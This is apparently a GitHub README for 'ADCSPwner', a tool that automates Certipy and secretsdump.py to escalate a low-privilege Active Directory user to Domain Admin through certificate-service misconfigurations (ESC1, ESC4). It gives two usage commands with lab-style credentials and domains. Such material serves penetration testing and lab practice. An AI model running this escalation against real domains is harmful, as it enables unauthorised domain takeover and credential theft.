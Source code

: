 # ADCSPwner
An Automated tool leveraging Certipy &amp; secretsdump.py to gain Domain Admin from Low Priv User

### ESC1 - ADCS

```
python3 esc1.py -u ryan.cooper@sequel.htb -p 'NuclearMosquito3' -t sequel.htb
```

![image](https://github.com/user-attachments/assets/7c8eb551-4cf9-4194-aa5d-b99a7ce5bedb)


### ESC4 - ADCS

```
python3 esc4.py -u clifford.davey@sendai.vl -p 'RFmoB2WplgE_3p' -t sendai.vl -d 10.10.104.31
```

![image](https://github.com/user-attachments/assets/6cd20428-6349-44e1-a568-281a21fbb7c2)
